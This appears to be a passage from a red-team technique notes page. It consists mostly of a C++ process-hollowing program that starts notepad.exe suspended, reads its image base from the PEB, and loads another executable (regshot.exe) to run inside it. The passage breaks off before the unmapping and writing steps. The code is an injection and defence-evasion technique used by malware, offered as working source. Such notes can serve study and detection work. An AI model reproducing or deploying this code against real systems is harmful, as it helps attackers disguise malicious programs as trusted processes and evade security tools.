 ![](<../../.gitbook/assets/Screenshot from 2019-04-30 22-58-35.png>)

## Code

{% code title="process-hollowing.cpp" %}
```cpp
// process-hollowing.cpp : This file contains the 'main' function. Program execution begins and ends there.
//

#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>

using NtUnmapViewOfSection = NTSTATUS(WINAPI*)(HANDLE, PVOID);

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
	DWORD returnLenght = 0;
	CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
	HANDLE destProcess = pi->hProcess;

	// get destination imageBase offset address from the PEB
	NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
	DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 
	
	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	SIZE_T bytesRead = NULL;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,	NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
	LPDWORD fileBytesRead = 0;
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
	
	// get source image size
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// carve out the destination image
```